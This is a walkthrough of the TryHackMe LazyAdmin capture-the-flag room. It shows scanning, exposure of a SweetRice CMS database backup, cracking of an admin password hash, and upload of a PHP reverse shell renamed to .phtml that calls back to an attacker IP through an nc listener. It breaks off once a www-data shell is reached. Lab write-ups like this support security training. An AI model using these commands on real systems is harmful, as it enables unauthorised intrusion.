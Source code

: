 # 🛡️ TryHackMe: LazyAdmin – Walkthrough & Report

**Room:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)  
**Difficulty:** Easy  
**Target IP:** 10.10.187.142  
**Objective:** Capture the user and root flags by identifying and exploiting vulnerabilities

---

## 🧭 Enumeration

### 🔎 Nmap Scan

```bash
nmap -Pn -sC -sV -oN lazyadmin.nmap 10.10.187.142
```

**Findings:**

- `22/tcp` – OpenSSH
- `80/tcp` – Apache HTTPD with default Ubuntu page

---

## 🌐 Web Discovery

Visited `http://10.10.187.142`, revealed default Apache page.  
No custom web app present at root.

Used Gobuster to enumerate directories:

```bash
gobuster dir -u http://10.10.187.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Findings:**

- `/content/`
- `/server-status/` (403)

Further enumeration on `/content/` revealed:

- `/content/as/`
- `/content/inc/`
- `/content/inc/mysql_backup/`

---

## 🔍 CMS Identification

Visiting `/content/` revealed the site is running **SweetRice CMS**, which is known to be vulnerable.

---

## 💥 Exploitation: SweetRice Backup Disclosure

Visited:

```
http://10.10.187.142/content/inc/mysql_backup/
```

Found file:

```
mysql_backup_20191129023059-1.5.1.sql
```

Downloaded with:

```bash
wget http://10.10.187.142/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```

Cracked MD5 hash:

```
42f749ade7f9e195bf475f37a44cafcb → Password123
```

---

## 🔐 Gaining Access

Logged in at:

```
http://10.10.187.142/content/as
```

With credentials:

```
Username: manager
Password: Password123
```

---

## 🐚 Reverse Shell

1. Downloaded reverse shell:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

2. Edited IP and port:

```php
$ip = '10.11.0.5';  // Attacker IP
$port = 4444;
```

3. Renamed and uploaded via admin panel:

```bash
mv php-reverse-shell.php shell.phtml
```

4. Set up listener:

```bash
nc -lvnp 4444
```

5. Triggered shell → Connected as `www-data`

---
